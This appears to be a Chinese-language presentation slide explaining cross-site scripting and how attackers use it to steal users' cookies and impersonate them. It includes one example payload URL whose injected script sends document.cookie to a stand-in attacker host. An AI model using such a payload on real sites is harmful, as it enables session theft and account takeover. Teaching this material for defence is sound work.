

XSS跨站脚本攻击
跨站脚本主要被攻击者利用来读取网站用户的cookies或者其他个人数据，一旦攻击者得到这些数据，那么他就可以伪装成此用户来登录网站，获得此用户的权限。
当有存在跨站漏洞的程序出现的时候，攻击者可以构造类似 http://www.aaa.com/search.php?key=<script>document.location='http://www.hack.com/getcookie.php?cookie='+document.cookie;</script> ，诱骗用户点击后，可以获取用户cookies值